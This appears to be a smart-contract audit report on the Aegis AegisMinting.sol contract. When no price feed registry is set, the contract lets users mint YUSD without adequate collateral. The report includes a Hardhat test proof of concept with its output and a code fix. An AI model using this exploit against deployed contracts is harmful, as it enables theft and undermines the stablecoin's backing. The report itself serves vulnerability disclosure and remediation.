 Plain Brown Shetland

Medium

# Users will mint unlimited YUSD without small collateral

### Summary

In AegisMinting.sol

https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L806

```solidity
function _getAssetUSDPriceChainlink(address asset) internal view returns (uint256, uint8) {
    if (address(_feedRegistry) == address(0)) {
      return (0, 0);
    }

    // ...
  }

function _calculateMinYUSDAmount(address collateralAsset, uint256 collateralAmount, uint256 yusdAmount) internal view returns (uint256) {
    (uint256 chainlinkPrice, uint8 feedDecimals) = _getAssetUSDPriceChainlink(collateralAsset);
    if (chainlinkPrice == 0) {
      return yusdAmount;
    }
    
    // ...
   
  }
```

When _feedRegistry is set to address(0), _getAssetUSDPriceChainlink() function returns 0 instead of reverting..

So it causes _calculateMinYUSDAmount to return the yusdAmount parameter directly. 
As a result, the mint() function mints the full order.yusdAmount of YUSD tokens as requested, regardless of the actual collateral amount provided.

This effectively allows users to mint unlimited YUSD with little collateral.



### Root Cause

N/A

### Internal Pre-conditions

_feedRegistry needs to be set as address(0)

### External Pre-conditions

N/A

### Attack Path

1. Users will call mint function with huge yusd amount and tiny collateral amount as parameter
2. Users can get yusd that he wants regardless of the actual collateral provided.

### Impact

This allows users to mint unlimited YUSD with little collateral, leading to collapse of the system.

### PoC

In 5_aegis_minting_mint.spec.ts

- Add following it function in 'success' describe of '#mint' describe of 'AegisMinting' describe.

```solidity
it('test mint unlimit YUSD', async () => {
        const [, sender] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, yusdContract, aegisConfig } = await loadFixture(deployFixture)

        await aegisConfig['whitelistAddress(address,bool)'](sender, true)

        await assetContract.mint(sender.address, ethers.parseEther('100'))
        await assetContract.connect(sender).approve(aegisMintingAddress, ethers.parseEther('100'))

        const collateralAmount = ethers.parseEther('10')
        const yusdAmount = ethers.parseEther('9.999')

        const blockTime = await time.latest()
        const order = {
          orderType: OrderType.MINT,
          userWallet: sender.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: yusdAmount,
          expiry: blockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature = await signOrder(order, aegisMintingAddress)

        const senderYUSDBalanceBefore = await yusdContract.balanceOf(sender.address)

        await expect(aegisMintingContract.connect(sender).mint(order, signature)).to.
          emit(aegisMintingContract, 'Mint').
          withArgs(sender.address, order.collateralAsset, order.collateralAmount, order.yusdAmount, 0)

        const senderYUSDBalance = await yusdContract.balanceOf(sender.address)

        console.log("minting for 10 collateral = ", senderYUSDBalance - senderYUSDBalanceBefore);   

        const yusdAmount1 = ethers.parseEther('300')

        const blockTime1 = await time.latest()
        const order1 = {
          orderType: OrderType.MINT,
          userWallet: sender.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount1,
          slippageAdjustedAmount: yusdAmount1,
          expiry: blockTime1 + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature1 = await signOrder(order1, aegisMintingAddress)

        await expect(aegisMintingContract.connect(sender).mint(order1, signature1)).to.
          emit(aegisMintingContract, 'Mint').
          withArgs(sender.address, order1.collateralAsset, order1.collateralAmount, order1.yusdAmount, 0)

        const senderYUSDBalance1 = await yusdContract.balanceOf(sender.address)
        console.log("minting for 10 collateral = ", senderYUSDBalance1 - senderYUSDBalance); 
      })
```

- Run command

npx hardhat test --grep 'test mint unlimit YUSD'

- Result 


AegisMinting
    #mint
      success
minting for 10 collateral =  9999000000000000000n
minting for 10 collateral =  300000000000000000000n
        ✔ test mint unlimit YUSD (743ms)


As result, user mint YUSD that he wants regardless of collateral.




### Mitigation

```diff
function _getAssetUSDPriceChainlink(address asset) internal view returns (uint256, uint8) {
    if (address(_feedRegistry) == address(0)) {
-      return (0, 0);
+      revert NoFeedRegistry();
    }

}
```
